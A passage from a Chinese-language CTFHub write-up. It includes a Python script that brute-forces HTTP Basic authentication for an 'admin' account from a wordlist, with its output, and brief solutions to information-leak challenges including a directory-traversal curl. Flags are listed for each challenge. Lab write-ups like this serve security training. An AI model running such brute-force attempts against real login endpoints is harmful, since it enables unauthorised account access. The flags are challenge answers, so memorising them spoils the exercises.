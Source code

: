 ```python

for mpass in wordlist.split("\n"):
    mkey = base64.b64encode(f"admin:{mpass}".encode()).decode()
    print(f"Trying: {mpass}")
    resp = requests.get(
        "http://challenge-9ab9e243ade97b54.sandbox.ctfhub.com:10800/flag.html",
        headers= {
            "Authorization": f"Basic {mkey}"
        }
    )
    if resp.status_code != 401:
        print(resp.headers)
        print(resp.text)
        break
```

```bash
<omitted ...>
Trying: 1234567
Trying: dragon
Trying: 123123
Trying: baseball
{'Server': 'openresty/1.21.4.2', 'Date': 'Thu, 19 Dec 2024 09:13:52 GMT', 'Content-Type': 'text/html; charset=utf-8', 'Transfer-Encoding': 'chunked', 'Connection': 'keep-alive', 'Last-Modified': 'Thu, 19 Dec 2024 08:53:47 GMT', 'ETag': 'W/"6763df1b-21"', 'Access-Control-Allow-Origin': '*', 'Access-Control-Allow-Headers': 'X-Requested-With', 'Access-Control-Allow-Methods': '*', 'Content-Encoding': 'gzip'}
ctfhub{705a46bedb9bbd76d64baf73}
```

flag: `ctfhub{705a46bedb9bbd76d64baf73}`

### 信息泄露 - 响应包源代码

不用开游戏，直接翻 html 源代码就可以看到 flag

flag: `ctfhub{6ad3eb5fe2ea7d5b236b8cba}`

### 信息泄露 - 目录遍历

```bash
$ curl "http://challenge-b89bdb40dfbfe07c.sandbox.ctfhub.com:10800/flag_in_here/4/2/flag.txt"
ctfhub{3fa42395c00b66ed7c32fa09}
```

flag: `ctfhub{3fa42395c00b66ed7c32fa09}`

### 信息泄露 - PHPINFO

直接网页搜索就好了

flag: `ctfhub{f9c8cec1765b37b862dcc4fa}`

### 信息泄露 - 网站源码
